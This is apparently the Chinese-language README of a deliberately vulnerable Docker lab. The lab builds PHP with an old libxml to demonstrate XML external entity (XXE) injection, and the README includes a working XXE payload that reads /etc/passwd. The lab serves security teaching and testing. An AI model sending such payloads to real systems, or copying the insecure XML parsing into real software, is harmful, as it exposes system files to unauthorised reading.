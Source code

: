 # PHP环境 XML外部实体注入漏洞（XXE）

环境介绍：

- PHP 7.0.30
- libxml 2.8.0

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

使用如下命令编译并启动环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到phpinfo，搜索libxml即可看到其版本为2.8.0。

Web目录为`./www`，其中包含4个文件：

```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```

`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。

Simple XXE Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

输出：

![](1.png)

更多高级利用方法，请自行探索。